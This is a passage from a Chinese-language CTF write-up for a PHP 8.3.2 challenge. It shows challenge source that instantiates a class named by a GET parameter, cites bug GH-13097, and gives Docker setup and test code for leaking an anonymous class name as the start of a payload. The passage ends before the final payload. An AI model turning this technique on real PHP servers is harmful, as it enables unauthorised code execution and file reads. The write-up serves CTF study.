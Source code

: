 访问`/flag.php?ezphpPhp8`，读取生成的源码

![image-20240721022347849](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033933294-1512458311.png)

![image-20240721022524879](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033934100-1329942310.png)

```
 <?php
 if (isset($_GET['ezphpPhp8'])) {
     highlight_file(__FILE__);
 } else {
     die("No");
 }
 $a = new class {
     function __construct()
 {
     }

     function getflag()
 {
         system('cat /flag');
     }
 };
 unset($a);
 $a = $_GET['ezphpPhp8'];
 $f = new $a();
 $f->getflag();
 ?>
```

题目提示PHP版本为php 8.3.2，去PHP官网看ChangeLog，直接锁定GH-13097

![image-20240721030306000](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033934837-954013509.png)

本地调试，发现这里是可以用匿名类去读取出来flag，构造payload

本地起个容器：

```
 docker run -itd -p 1238:80 php:8.3.2-apache
 docker exec -it <容器id> /bin/bash
```

放flag.php，测试代码如下：

```
 <?php
 if (isset($_GET['ezphpPhp8'])) {
 //    highlight_file(__FILE__);
 } else {
 //    die("No");
 }
 $anonymous = new class {
     function __construct()
     {
     }

     function getflag()
     {
         system('cat /flag');
     }
 };
 $a = get_class($anonymous);
 echo urlencode($a);
 echo "\n";
 unset($anonymous);
 //echo get_class($a).': now you see me...';
```
